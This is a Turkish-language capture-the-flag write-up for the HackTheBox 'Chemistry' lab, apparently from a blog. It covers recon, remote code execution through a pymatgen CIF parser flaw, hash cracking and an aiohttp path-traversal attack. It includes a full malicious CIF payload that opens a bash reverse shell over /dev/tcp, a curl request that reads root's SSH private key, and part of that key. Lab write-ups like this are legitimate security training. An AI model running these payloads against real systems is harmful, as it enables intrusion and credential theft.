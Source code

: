 ```yaml
---
title: 'HackTheBox | Chemistry WriteUp'
author: appdone
categories: [HackTheBox Challenges]
tags: [command injection, lfi, directory traversal]
render_with_liquid: false
media_subpath: /images/hackthebox_chemistry/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasında bir dosyanın analiz edildiği sırada oluşan bir zafiyet olduğunu öğrenecek ve dosya içeriğini değiştirerek zafiyeti istismar edeceğiz. Daha sonra web uygulamasında kullanılan `sqlite` dosyasının içerisinden sistem kullanıcısının bilgilerini çıkaracağız. Yetki yükseltebilmek için sistemde dolaştığımız sırada yerel ağda bir web uygulamasının çalıştığını tespit edecek ve bu web uygulamasında kullanılan bir modülün üzerinde `Local File Inclusion` zafiyetinin olduğunu keşfedeceğiz. Sonrada bu zafiyetten faydalanarak `root` kullanıcısının `id_rsa` dosyasını çekecek ve bu dosyayı kullanarak `root` kullanıcısına geçiş yapacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.11.38
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-22 07:44 EDT
Nmap scan report for 10.10.11.38
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
...
```

Tarama sonucunda 22 (SSH) ve 5000 (HTTP) numaralı portların açık olduğunu ve web uygulamasının `python flask` ile yapıldığını öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="900" height="500" }

HTTP servisi üzerinde `flask` ile yapılmış `CIF` dosyalarını analiz eden bir uygulama barınıyor. Bir kullanıcı oluşturalım daha sonra ise siteye giriş yapalım.

![](2.webp){: width="900" height="500" }

Örnek bir `CIF` dosyası verilmiş. Bu dosyayı indirdikten sonra tekrar yüklüyor ve sonuçları görüntülüyoruz.

![](3.webp){: width="900" height="600" }

Bazı yazıları doğrudan ekrana yazdırdığını düşünerek dosyayı düzenlemeye çalıştım ama hiçbir şekilde kod çalıştıramadım. Uzantısını google da arattığımızda ise [bu](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/) sayfa ile karşılaşıyoruz.

## Sömürü aşaması

Sayfa içerisinde gördüğümüz `CIF` dosyasının komut çalıştırdığı alanına reverse shell komutumuzu ekleyelim.

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.117/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Bu içeriği `.cif` uzantılı olacak şekilde bir dosyaya kayıt ettikten sonra dinlemeye aldığımız port üzerinden bir shell elde ediyoruz.

![](4.webp){: width="1200" height="600" }

## Yetki yükseltme

### rosa

Web uygulamasında kullanıcı girişi olduğunu hatırlıyorsunuzdur, bu kullanıcı bilgilerinin bulunduğu dosyanın içerisinde sistem kullanıcılarından biri olan rosa'nın bilgileride bulunuyor.

```console
app@chemistry:~/instance$ strings database.db | grep "rosa"
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
```

Hash'i [hashes.com](https://hashes.com/) sitesinin yardımıyla kırdıktan sonra rosa kullanıcısına geçiş yapıyor ve ilk bayrağı kendi dizininden alıyoruz.

### root

8080 numaralı yerel port üzerinde bir web uygulaması çalışıyor.

```console
rosa@chemistry:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      34896/bash          
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
rosa@chemistry:~$
```

Bu web uygulaması ile ilgilenebilmemiz için SSH tünellemesi vasıtasıyla kendi ağımızdan geçireceğiz.

```console
$ ssh rosa@10.10.11.38 -L 8080:127.0.0.1:8080
```

![](5.webp){: width="1200" height="600" }

Web uygulaması sistemdeki servislerin kontrolünü sağlayan bir uygulamaya benziyor. Tüm özellikleri de kapalı durumda, site üzerinde hiçbir işlem yapamıyoruz.

![](6.webp){: width="1200" height="600" }

Bulunduğu `/opt/monitoring_site` dizininede giriş iznimiz yok. Geliştirici araçlarının yardımıyla web uygulamasının header bilgilerini görüntülediğimizde python da bulunan `aiohttp` modülünün `3.9.1` sürümünü kullandığını görüyoruz.

![](7.webp){: width="1200" height="600" }

Modülü sürümüyle beraber internette arattığımızda [Local File Inclusion](https://github.com/wizarddos/CVE-2024-23334/blob/master/exploit.py) zafiyetinin varlığından haberdar oluyoruz. Bu zafiyetten yararlanarak `root` kullanıcısının dizininde bulunan `id_rsa` dosyasını çekiyoruz.

```console
rosa@chemistry:~$ curl --path-as-is http://localhost:8080/assets/../../../../../../root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo
DfYsOMY0zyI0k5yLl1s685qJIYJHmin9HZBmDIwS7e2riTHhNbt2naHxd0WkJ8PUTgXuV2
...
```

Daha sonra kendisini kullanarak sisteme giriş yapıyor ve bayrağı `/root` dizininden alıyoruz.

```console
$ chmod 600 id_rsa
$ ssh root@10.10.11.38 -i id_rsa
...
root@chemistry:~# ls
root.txt
root@chemistry:~# cat root.txt 
33a1...8a9a
```
